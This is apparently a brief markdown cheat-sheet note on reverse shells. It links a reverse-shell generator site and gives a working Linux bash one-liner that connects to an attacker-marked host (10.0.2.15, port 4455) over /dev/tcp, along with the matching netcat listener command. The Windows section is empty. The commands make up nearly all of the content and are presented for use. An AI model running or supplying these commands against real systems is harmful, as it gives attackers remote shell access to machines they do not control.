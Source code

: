 
https://www.revshells.com/

### Linux
``` bash
bash -c "bash -i >& /dev/tcp/10.0.2.15(atacante)/4455(atacante) 0>&1"
```

```bash
nc -lvnp 4455
```

### Windows
